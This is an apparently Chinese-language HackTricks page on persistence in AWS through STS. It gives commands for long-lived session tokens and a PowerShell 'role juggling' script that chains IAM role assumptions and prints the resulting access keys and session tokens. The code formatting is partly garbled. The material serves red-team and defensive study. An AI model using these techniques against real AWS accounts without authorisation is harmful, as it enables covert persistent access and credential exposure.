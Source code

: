# AWS - STS Persistence

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## STS

有关更多信息，请访问：

{% content-ref url="../aws-services/aws-sts-enum.md" %}
[aws-sts-enum.md](../aws-services/aws-sts-enum.md)
{% endcontent-ref %}

### 假定角色令牌

临时令牌无法列出，因此保持活动临时令牌是保持持久性的一种方式。

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# 使用MFA
aws sts get-session-token \
--serial-number &#x3C;mfa-device-name> \
--token-code &#x3C;code-from-token>

# 硬件设备名称通常是设备背面的数字，例如GAHT12345678
<strong># 短信设备名称是AWS中的ARN，例如arn:aws:iam::123456789012:sms-mfa/username
</strong># 虚拟设备名称是AWS中的ARN，例如arn:aws:iam::123456789012:mfa/username
</code></pre>

### 角色链混合

[**角色链是一个公认的AWS功能**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id\_roles\_terms-and-concepts.html#Role%20chaining)，经常用于保持隐蔽持久性。它涉及**假定一个角色，然后假定另一个角色**，可能以**循环方式**返回到初始角色。每次假定一个角色时，凭证的过期字段都会刷新。因此，如果配置了两个角色相互假定彼此，此设置允许凭证的永久更新。

您可以使用此[**工具**](https://github.com/hotnops/AWSRoleJuggler/)来保持角色链的持续进行：

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
-h, --help            show this help message and exit
-r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

<details>

<summary>用PowerShell执行角色切换的代码</summary>

\`\`\`powershell # PowerShell script to check for role juggling possibilities using AWS CLI

## Check for AWS CLI installation

if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) { Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'." exit }

## Function to list IAM roles

function List-IAMRoles { aws iam list-roles --query "Roles\[\*].{RoleName:RoleName, Arn:Arn}" --output json }

## Initialize error count

$errorCount = 0

## List all roles

$roles = List-IAMRoles | ConvertFrom-Json

## Attempt to assume each role

foreach ($role in $roles) { $sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime) try { $credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json if ($credentials) { Write-Host "Successfully assumed role: $($role.RoleName)" Write-Host "Access Key: $($credentials.AccessKeyId)" Write-Host "Secret Access Key: $($credentials.SecretAccessKey)" Write-Host "Session Token: $($credentials.SessionToken)" Write-Host "Expiration: $($credentials.Expiration)"

## Set temporary credentials to assume the next role

$env:AWS\_ACCESS\_KEY\_ID = $credentials.AccessKeyId $env:AWS\_SECRET\_ACCESS\_KEY = $credentials.SecretAccessKey $env:AWS\_SESSION\_TOKEN = $credentials.SessionToken

## Try to assume another role using the temporary credentials

foreach ($nextRole in $roles) { if ($nextRole.Arn -ne $role.Arn) { $nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime) try { $nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json if ($nextCredentials) { Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)" Write-Host "Access Key: $($nextCredentials.AccessKeyId)" Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)" Write-Host "Session Token: $($nextCredentials.SessionToken)" Write-Host "Expiration: $($nextCredentials.Expiration)" } } catch { $errorCount++ } } }

## Reset environment variables

Remove-Item Env:\AWS\_ACCESS\_KEY\_ID Remove-Item Env:\AWS\_SECRET\_ACCESS\_KEY Remove-Item Env:\AWS\_SESSION\_TOKEN } else { $errorCount++ } } catch { $errorCount++ } }

## Output the number of errors if any

if ($errorCount -gt 0) { Write-Host "$errorCount error(s) occurred during role assumption attempts." } else { Write-Host "No errors occurred. All roles checked successfully." }

Write-Host "Role juggling check complete."

```
</details>

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
```

</details>
